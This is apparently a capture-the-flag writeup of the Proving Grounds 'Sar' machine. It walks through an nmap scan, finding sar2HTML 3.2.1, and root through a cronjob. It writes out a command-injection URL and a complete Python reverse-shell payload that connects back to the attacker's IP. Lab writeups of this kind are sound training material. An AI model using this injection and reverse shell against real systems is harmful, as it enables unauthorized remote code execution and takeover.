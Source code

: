 ```yaml
---
layout: default
title : muzec - Sar Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/120899266-d28fc500-c5fc-11eb-9d32-993723f2174f.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/PG/sar]
└─$ nmap -sC -sV -oA nmap 192.168.136.35   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 09:43 EDT
Nmap scan report for 192.168.136.35
Host is up (0.33s latency).
Not shown: 997 closed ports
PORT      STATE    SERVICE   VERSION
22/tcp    open     ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
|_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
80/tcp    open     http      Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
14000/tcp filtered scotty-ft
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.88 seconds
```

Seems we have 2 open ports cool let check on port 80 first which is the HTTP.

![image](https://user-images.githubusercontent.com/69868171/120899433-be989300-c5fd-11eb-8cca-f31679d427bb.png)

A simple apache web server running nice and really clean why not we check the `robots.txt` if we have anything on it.

![image](https://user-images.githubusercontent.com/69868171/120899521-1cc57600-c5fe-11eb-924f-50618e1c6e93.png)

Boom yea we do get a secret dircetory i think nice let confirm it with `IP/sar2HTML` if it our way in or a rabbit hole.

![image](https://user-images.githubusercontent.com/69868171/120899606-978e9100-c5fe-11eb-9694-c5c40a782d92.png)

sar2HTML Ver 3.2.1 let use `searchsploit` to check for some exploit if it vulnerable or not.

![image](https://user-images.githubusercontent.com/69868171/120900123-1ab0e680-c601-11eb-93a5-25a16af7afb1.png)

A python exploit and a txt one but let skip the python one i love doing things manually because that the way you need so let cat the txt one to see what we have to do to get the RCE.

![image](https://user-images.githubusercontent.com/69868171/120900206-872be580-c601-11eb-862c-1563bcd76f5e.png)

In web application you will see index.php?plot url extension. http://<ipaddr>/index.php?plot=;<command-here> will execute the command you entered. After command injection press "select # host" then your command's output will appear bottom side of the scroll screen.
  
`http://192.168.136.35/sar2HTML/index.php?plot=;id` checking the host and we have Remote code execution.

![image](https://user-images.githubusercontent.com/69868171/120900375-73cd4a00-c602-11eb-8a2f-6143f57484cc.png)

Now let use python reverse shell payload to get our shell to our terminal  `192.168.136.35/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.136",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
 
![image](https://user-images.githubusercontent.com/69868171/120900556-43d27680-c603-11eb-870b-0cc359d1a02a.png)
 
We have shell let spawn a TTY shell now time to get root.
  
### Privilege Escalation

![image](https://user-images.githubusercontent.com/69868171/120900889-7da47c80-c605-11eb-846a-c41f1307e546.png)
  
A cronjob running on root let inject it with our payload to get root.
  
![image](https://user-images.githubusercontent.com/69868171/120901122-e4766580-c606-11eb-8e8b-5dd7f441d412.png)

Now let wait for 5min to get our shell on our Ncat listener.
  
![image](https://user-images.githubusercontent.com/69868171/120901146-1687c780-c607-11eb-9036-4f985c8ad678.png)

We are root and done.
  
Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
